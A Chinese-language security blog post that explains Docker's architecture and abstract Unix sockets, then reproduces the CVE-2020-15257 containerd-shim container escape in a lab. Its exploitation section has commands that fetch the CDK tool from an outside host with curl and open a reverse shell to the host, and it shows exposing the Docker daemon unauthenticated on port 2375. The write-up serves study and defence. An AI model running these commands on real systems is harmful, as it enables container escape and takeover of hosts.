# 【深度解析】从docker底层原因到CVE-2020-15257-先知社区

> **来源**: https://xz.aliyun.com/news/16708  
> **文章ID**: 16708

---

# 【深度解析】从docker底层原因到CVE-2020-15257

​

​ CVE-2020-15257这个漏洞，如果想完全了解，那么一些docker底层的知识是一定要知道的，不过可以放心也不是非常难，掌握了一些底层知识之后能完全理解CVE-2020-15257这个漏洞，并且还能帮助你了解其它docker相关漏洞或者安全隐患。在研究过程中出现最多的问题以及花费时间最多的一些问题其实归根结底都是网络原因导致的，懂的都懂，不过好在最后也都找到了解决方案并且也收获了不少

## 1x00 docker底层分析

### 1x01 docker的组成

**首先这里说一个误区**：docker是轻量级的虚拟机，这种说法是错误的，虽然docker和vm都是基于虚拟化技术，不过他们还是有很大区别

* 虚拟机（VM）：使用硬件虚拟化技术，基于`Hypervisor`虚拟化监控程序，在物理硬件上创建多个虚拟环境，每个虚拟环境都运行了一个完整的操作系统包括内核。
* Docker：使用操作系统级虚拟化技术，也叫容器化，它通过共享宿主操作系统的内核，实现进程级的隔离，每个容器运行自己的应用程序和依赖，而不需要独立的操作系统内核。容器更加轻量级，可以更快速地启动和停止。

**Docker 整体架构采用 C/S（客户端 / 服务器）模式，主要由客户端和服务端两大部分组成。客户端负责发送操作指令，服务端负责接收和处理指令。**

**下面来看一张图，来了解docker相关的组件**



其中docker客户端，可以理解成我们常说的docker client

### 1x02 Docker Client

​ docker client也就是我们平时用的docker客户端，平时使用`docker run`、`docker pull`这些命令的时候，就是利用docker客户端与docker服务端进行通信的。

​ docker client与服务端通信（这里指的其实是docker client和docker daemon守护进程），可以利用`unix`套接字在本地通信，也可以通过网络连接远程通信。

​ 比如当我们平时在自己服务器上装了一个docker，然后这时候直接在这个服务器上执行了`docker pull`命令，这时候就是docker client通过`unix`套接字与本机运行的docker服务端进行通信的，我们可以在利用`strace`跟踪一下系统调用，即可发现它确实利用的是位于`/var/run/docker.sock`这个`unix`套接字，注意这里通信的双方是Docker Client和Docker Daemon。



​ 那么docker client通过网络连接远程通信又是怎么回事呢？其实正如前文所说docker属于C/S架构，它也能够远程访问并操作，例如我用A服务器里面的docker client操作B服务器里面的docker服务，具体如下

```
#更改B服务器鹅蛋docker的配置文件
vim /lib/systemd/system/docker.service
#找到ExecStart那行，在后边加上
-H tcp://0.0.0.0:2375

#重启docker
systemctl daemon-reload
systemctl restart docker

#（然后别忘了关闭防火墙）
```

然后我们可以通过http服务访问一下这个端口的info目录，如下图所示就表示配置成功了



然后A服务器中执行

```
export DOCKER_HOST=tcp://ip:端口
```

​ 此时在执行docker相关命令，就不是在本地docker服务执行了，而是执行的B服务器的docker服务了，下图表示A服务器此时执行的是B服务器的容器，并且和B服务器命令得出的结果一模一样



那么这个时候docker client当操作远程服务器上的docker服务的时候又是利用什么套接字连接的呢？如下图可以看出是新建了一个IPv4 TCP套接字



如果想通过docker client执行回本地的docker也很简单

```
unset DOCKER_HOST
```

以unset命令为分隔，上面是远程服务器的docker服务，下面是本机的



### 1x03 Docker Daemon

​ `Docker Daemon`也叫`dockerd`，是 Docker 服务端的后台常驻进程，用来接收客户端发送的请求，执行具体的处理任务，处理完成后将结果返回给客户端。

Docker 客户端可以通过多种方式向 dockerd 发送请求，我们常用的 Docker 客户端与 dockerd 的交互方式有三种。

* 像前文讲到的用unix套接字进行通信，默认 dockerd 生成的 socket 文件路径为 /var/run/docker.sock，该文件只有 root 用户或者 docker 用户组的用户才可以访问
* 像前文讲到的用TCP与服务端通信
* 通过文件描述符的方式与服务端通信（不常用，了解即可）

### 1x04 containerd

​ `containerd`负责器生命周期的管理、镜像的管理、接收dockerd的请求、管理存储相关资源、管理网络相关资源等，dockerd与containerd通信通过路径为 /run/containerd/containerd.sock的UNIX 套接字



### 1x05 containerd-shim

​ `containerd`不是直接调用 runc 的，而是通过`containerd-shim`来调用 runc 的，每启动一个容器都会起一个新的containerd-shim的一个进程，它直接通过指定的三个参数：容器id，boundle目录，来通过runC命令启动、执行容器、进程。

​ `containerd-shim`的主要作用是将`containerd`和真正的容器进程解耦，当`containerd`通过`containerd-shim`来调用`runc`后, 会把 containerd-shim 的挂到system（pid=1）的进程下，这样当containerd挂掉或者重启时，containerd-shim还是会继续运行的，这样就保证了容器的进程不会挂掉。

​ 由于containerd更加简单和轻量，生产环境中越来越多的人开始直接使用 containerd 来管理容器。`ctr`是一款可以与`containerd`交互的工具，我们可以利用ctr来操作containerd进行容器管理



==注意：==

​ 那么现在要点来了，前文我们知道了docker client与dockerd通信和dockerd和containerd通信，现在containerd-shim和containerd是如何通信的呢？

​ 那就需要知道一个新的概念**抽象 Unix 域套接字**，跟我们上文了解的unix域套接字不同，它不依赖于文件，抽象 Unix 域套接字使用以 NULL 字符（`\0`）为前缀的路径来标识套接字地址。

​

​ 例如我们正常绑定本地unix域套接字的代码应该是这样的

```
client = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
client.connect("/tmp/mysocket.sock")
```

​ 那么如果创建了抽象unix域套接字，我们的代码应该是这样的（例如抽象域套接字名字为mysocket）

```
server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("\0/mysocket")
```

​ 因为docker client和dockerd和containerd在系统中都是唯一且稳定存在的，所以他们通信依赖于基于文件系统路径的 **Unix 域套接字**，因为这样更稳定且便于调试，正如我们前文了解的那样，每启动一个容器containerd都会为其创建一个`containerd-shim`，容器我们可能会经常创建或删除，而且数量未知，所以`containerd`和`containerd-shim`之间通信利用的就是抽象unix域套接字，不依赖于文件且性能更高。

​ containerd在创建containerd-shim之前，会创建一个Unix域套接字，设置的是抽象名字空间路径，具体的名字是根据`命名空间`和`bundle id`为基础计算出的一个`sha256`值，通过访问`/proc/net/unix`文件，可以获取到当前网络命名空间下所有的Unix域套接字信息。

```
cat /proc/net/unix | grep 'containerd-shim' | grep '@'
```




​ 此时containerd-shim做为server向外提供服务，containerd做为client，调用containerd-shim提供的API实现对容器的间接管理，不仅如此抽象unix域套接字限定了只能是root（UID=0，GID=0）用户才能连接成功，containerd-shim对外暴露一些API如下：

```
service Shim {

    // 获取shim和任务的状态信息。这个方法通常用于查询容器的当前状态。
    rpc   State(StateRequest) returns (StateResponse);
    // 创建一个新的任务并初始化。在容器运行时，这个方法用于启动一个新的进程。
    rpc   Create(CreateTaskRequest) returns (CreateTaskResponse);
    // 启动任务的执行。通常在任务被创建后调用这个方法来启动容器进程。
    rpc   Start(StartRequest) returns (StartResponse);
    // 删除任务并清理其相关资源。这个方法用于停止并销毁任务。
    rpc   Delete(google.protobuf.Empty) returns (DeleteResponse);
    // 删除指定的进程。在多进程容器中，可以用来删除某个子进程。
    rpc   DeleteProcess(DeleteProcessRequest) returns (DeleteResponse);
    // 列出任务中所有进程的PID。用于获取任务下所有进程的信息。
    rpc   ListPids(ListPidsRequest) returns (ListPidsResponse);
    // 暂停任务的执行。此方法用于挂起容器任务，类似于暂停容器。
    rpc   Pause(google.protobuf.Empty) returns (google.protobuf.Empty);
    // 恢复暂停的任务执行。用于将容器从暂停状态恢复到运行状态。
    rpc   Resume(google.protobuf.Empty) returns (google.protobuf.Empty);
    // 为任务创建检查点。此方法用于容器的状态保存，通常用于容器迁移。
    rpc   Checkpoint(CheckpointTaskRequest) returns (google.protobuf.Empty);
    // 向任务发送信号以终止其执行。此方法用于强制停止任务，通常是发送杀死信号（如 SIGKILL）。
    rpc   Kill(KillRequest) returns (google.protobuf.Empty);
    // 在任务内运行一个新的进程。此方法用于执行新的命令或进程，类似于在容器中执行额外的命令。
    rpc   Exec(ExecProcessRequest) returns (google.protobuf.Empty);
    // 调整任务的伪终端(PTY)大小。此方法用于调整容器终端窗口的大小。
    rpc   ResizePty(ResizePtyRequest) returns (google.protobuf.Empty);
    // 关闭任务的输入/输出流。用于关闭容器的标准输入、输出和错误流。
    rpc   CloseIO(CloseIORequest) returns (google.protobuf.Empty);
    // 获取关于shim本身的信息。用于查询shim的状态、版本等信息。
    rpc   ShimInfo(google.protobuf.Empty) returns (ShimInfoResponse);
    // 更新任务的状态或配置。用于在任务运行时进行配置更改或状态更新。
    rpc   Update(UpdateTaskRequest) returns (google.protobuf.Empty);
    // 阻塞并等待任务退出，返回退出状态。该方法用于等待任务完成并获取其退出状态。
    rpc   Wait(WaitRequest) returns (WaitResponse);
}
```

### 1x06 runC

它是一个命令行工具，可以直接用来创建和运行容器， 负责真正意义上创建和启动容器

## 2x0 docker网络管理

Docker支持多种网络模式，我们仅需要了解下面2种即可

* **Bridge 网络模式：**

* 这是docker默认的网络模式，容器通过 `bridge` 网络模式连接到宿主机的虚拟网桥 `docker0`
* 不同宿主机容器无法直接通信，各网络独立，但容器可以访问宿主机和其它主机等网络
* 利用宿主机物理网卡，通过SNAT连接外网

利用命令可查看容器网络模式

```
docker inspect --format '{{json .NetworkSettings.Networks}}' ac81eec892b8
```

是bridge网络模式



* **Host网络模式：**

* 容器直接使用宿主机的网络堆栈。容器与宿主机共享 IP 地址和端口，因此容器将无法通过虚拟网桥连接。
* 容器暴露的端口会与宿主机的端口冲突，可能需要避免端口冲突。
* 容器的网络性能通常优于 `bridge` 模式，因为没有虚拟网络层的额外开销。

这种网络模式，容器直接使用的宿主机的网络，共享IP和端口，所以有安全隐患。

## 3x0 CVE-2020-15257

### 3x01 原理

​ **影响版本**： containerd <=1.3.9 <=1.4.3

​ 这个漏洞可以造成docker容器逃逸，漏洞成因是docker容器以--net=host启动，容器会直接使用宿主机的网络资源，这个时候由前文的基础可知containerd-shim和containerd通信是利用了当前`网络空间的抽象Unix套接字`，而且像我们前文提到的落地到文件的Unix域套接字，这类套接字由于是文件，在Linux系统中还存在文件系统隔离，而抽象Unix套接字只存在网络隔离，所以当容器以host启动后，与宿主机之间就不存在网络隔离了。

​ 所以这个时候当攻击者拿到docker容器权限并且是root账户的时候，就能够访问到containerd-shim 监听的抽象 Unix 域套接字，就可以访问到了containerd-shim的api并进行利用了。

​ 当我们可以利用containerd-shim的api之后基本上就可以为所欲为了，利用思路也有很多了，比较常见的是直接新建一个容器，然后将宿主机的根目录挂载在这个新容器的一个目录，就能达到对宿主机的完全操作了。

​

利用`metarget`安装漏洞环境：<https://github.com/Metarget/metarget>

```
./metarget cnv install cve-2020-15257 --domestic
```

然后以host模式启一个机器

```
docker run -d --name demo1 --net=host centos:centos7 sleep infinity
```

### 3x02 检测

这里模拟我们拿到docker容器的shell进行，首先判断一下是否是docker容器

```
ls -alh /
```

发现存在`.dockerenv`大概率是容器环境



然后直接执行我们前文提到的，查看抽象unix域套接字的命令，存在结果



### 3x03 利用

​ 检测相对容易，利用的话比较难，不过还有有大佬写好了现成的exp并集齐其工具中了

​ <https://github.com/cdk-team/CDK/>

​

​ 在服务器下载cdk然后启动一个http服务，在目标容器中进行命令尝试，wget没有，不过有curl，那么利用curl命令从我的服务器下载cdk

```
curl -s -L -o /tmp/cdk http://192.168.52.1/cdk_linux_amd64

chmod 755 cdk

./cdk run shim-pwn 192.168.52.251 6666
```

利用上方命令成功反弹了shell如下图所示，



接收成功



然后我们执行ls试试，会发现我们貌似还在容器里的tmp里



不过不用担心当我们执行如下命令的时候，可以看到我们确实已经逃逸成功了



==注意：==

​ 这里有个问题，如果复现过程中，通过cdk工具利用但是提示利用失败`exploit failed`字样，为什么会利用失败呢，这里我先不说，让大家自己思考思考想一下解决方案（给个提示，跟我之前写的小程序渗透那篇是一个解决思路），如果实在没研究出来，后台回复：“docker逃逸失败解决方案”

### 3x04 修复

​ 常见的修复方式除了升级以外网上都能找到，我这里就是根据原理出发，比较好奇高版本的containerd是如何修复的，从下图代码不难看出从原来的抽象 Unix 域套接字变成了基于文件的普通Unix套接字



​ 文件在`/run/containerd/s/`文件夹内，名字是一串sha256的值，后面并没有拼接`.sock`后缀，同样我们在高版本可以运行一下，然后看一下



## 4x0 结语

公众号`小惜渗透`欢迎师傅们关注交流哈，另外这个文章等审核完后过些天也会同步，所以有过有想转发到公众号的师傅们等我微信投完再转发哈

> 参考：<https://learn.lianglianglee.com/%E4%B8%93%E6%A0%8F/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E5%90%83%E9%80%8F%20Docker-%E5%AE%8C/11%20%20%E7%BB%84%E4%BB%B6%E7%BB%84%E6%88%90%EF%BC%9A%E5%89%96%E6%9E%90%20Docker%20%E7%BB%84%E4%BB%B6%E4%BD%9C%E7%94%A8%E5%8F%8A%E5%85%B6%E5%BA%95%E5%B1%82%E5%B7%A5%E4%BD%9C%E5%8E%9F%E7%90%86.md>
>
> <https://www.cnblogs.com/Rain99-/p/14094656.html>
